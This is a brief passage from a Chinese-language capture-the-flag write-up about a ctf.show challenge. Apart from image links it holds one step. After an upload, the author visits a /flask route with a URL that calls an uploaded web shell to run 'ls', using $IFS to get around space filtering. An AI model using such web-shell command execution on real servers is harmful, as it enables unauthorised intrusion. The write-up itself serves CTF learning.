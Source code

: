 [![](assets/1700442594-a482d0d542e908a17c3f54651dbf2f3b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118160824-a546fd66-85e9-1.png)

成功上传之后，访问/flask 路由

```bash
http://40802932-2116-47e3-8daa-197a8c7f52d7.challenge.ctf.show/flask?name=/shell?cmd=ls$IFS/
```

[![](assets/1700442594-159594c55e3c8b44e198f8c581a19859.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118160837-ad2f4128-85e9-1.png)

